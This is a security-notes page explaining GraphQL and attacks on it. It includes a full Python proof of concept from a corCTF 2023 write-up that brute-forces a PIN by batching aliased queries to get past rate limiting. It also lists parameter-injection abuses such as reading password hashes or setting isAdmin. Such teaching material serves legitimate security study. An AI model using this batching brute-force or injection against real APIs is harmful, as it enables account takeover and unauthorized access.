 ```yaml
---
title: "GraphQL"
description: "Overview of GraphQL"
lead: "Overview of GraphQL"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## Definition

[GraphQL](https://graphql.org/) is a query language for APIs and a runtime for executing those queries, enabling clients to request exactly the data they need and nothing more, often used to improve performance and flexibility over traditional REST APIs.

- `query`: Read data
- `mutation`: Write or delete data

## GraphQL Batching

**GraphQL batching** allows clients to **combine multiple GraphQL queries into a single request**. Instead of making several individual requests, clients can bundle multiple queries together and send them to the server in one HTTP POST request. The server then processes these queries together and returns a batched response with the requested data.

This can be used to bypass HTTP rate limiting. Example with the write up of the challenge: `corCTF 2023 - web/force`:

{{< details "GraphQL Batching - Example PoC" >}}
```python
import requests
import random
from string import ascii_letters


URL = "https://web-force-force-2c910d4f6aa5eee1.be.ax"
MAX_CONCURENT = 10_000
QUERY = "$RANDOM$:flag(pin: $PAYLOAD$)"


def random_name():
    """Generates a random key for the GraphQL query"""
    return "".join(random.choice(ascii_letters) for i in range(8))

def check_sucess(resp, tasks):
    """Checks if the response contains the flag"""
    data = resp.json()["data"]

    for key, value in data.items():
        if value != "Wrong!":
            print(tasks[key], value)
            return True
    return False

def brute_force():
    """Brute force using GraphQL batching"""
    tasks = {}
    i = 0

    while i < 10 ** 5:
        payload = "{"
        for _ in range(0, MAX_CONCURENT):
            random_key = random_name() 
            guess_value = str(i)
            tasks[random_key] = guess_value

            payload += " " + QUERY.replace("$RANDOM$", random_key).replace("$PAYLOAD$", guess_value)
            i += 1
        payload += " }"

        resp = requests.post(
            URL,
            headers={"Content-Type": "text/plain;charset=UTF-8"},
            data=payload,
            proxies={
                "http": "127.0.0.1:8080",
                "https": "127.0.0.1:8080"
            },
            verify=False
        )

        if check_sucess(resp, tasks):
            return

if __name__ == "__main__":
    brute_force()
```
{{< /details >}}

## Inputs/Outputs scope

Injecting extra parameters can result in unauthorized activities, such as:
- In **queries**, it can lead to accessing additional information, like obtaining password hashes or password reset tokens.
- In **mutations**, it might involve altering parameters, like setting an `isAdmin` field to `true`.

## Tools

- [GraphQL Voyager](https://graphql-kit.com/graphql-voyager/): Represent any GraphQL API as an interactive graph.
